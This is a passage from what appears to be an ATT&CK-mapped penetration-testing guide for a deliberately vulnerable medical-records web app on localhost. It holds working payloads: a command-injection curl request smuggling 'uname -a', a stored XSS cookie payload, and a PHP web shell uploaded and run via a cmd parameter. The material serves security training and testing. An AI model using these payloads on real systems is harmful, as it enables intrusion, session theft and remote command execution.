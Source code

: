 **Proof of Concept**:
```bash
curl "http://localhost:8080/settings.php?ping=localhost;uname+-a" \
  -b "PHPSESSID=session_id"
```

---

#### T1059.007: Command and Scripting Interpreter - JavaScript

**Description**: Execute JavaScript code in victim's browser.

**Vulnerable Component**: XSS in medical notes field

**Attack Vector**:
```html
<script>alert(document.cookie)</script>
```

**Testing Steps**:
1. Access patient record with XSS payload (patient #20)
2. JavaScript executes in victim browser
3. Can be used for session hijacking, keylogging, etc.

---

#### T1203: Exploitation for Client Execution

**Description**: Exploit software vulnerabilities to execute code.

**Vulnerable Component**: File upload allows PHP execution

**Attack Vector**:
Upload malicious PHP file:
```php
<?php system($_GET['cmd']); ?>
```

Access at:
```
http://localhost:8080/uploads/shell.php?cmd=whoami
```

**Testing Steps**:
1. Login to application
2. Navigate to Upload Files
3. Upload `shell.php`
4. Access uploaded file with `?cmd=` parameter
5. Execute arbitrary system commands

---

#### T1204.002: User Execution - Malicious File

**Description**: User executes malicious file.

**Vulnerable Component**: Unrestricted file upload
